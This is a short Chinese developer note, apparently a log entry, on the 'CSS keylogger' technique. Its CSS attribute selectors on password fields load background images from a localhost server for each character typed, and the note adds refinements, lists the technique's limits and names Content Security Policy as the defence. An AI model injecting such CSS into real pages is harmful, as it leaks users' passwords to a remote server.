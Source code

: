 ## css Log
最近很火的，css跟踪用户输入密码，其实也没有那么容易
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```
1.request其实到达后端的顺序不能保证，继续加强
```css
// a 开头
input[value^="a"] {
  background-image: url("http://localhost:3000/a_");
}
// aa 
input[value*="aa"] {
  background-image: url("http://localhost:3000/aa");
}
// bb
input[value*="ab"] {
  background-image: url("http://localhost:3000/ab");
}
```
2. 输入框value的值不会变（除非用react）
3. 有重复的字符但是同一个请求不会发送两次
防止以上发生: response header的一个设置
[Content Security Policy](http://www.ruanyifeng.com/blog/2016/09/csp.html)
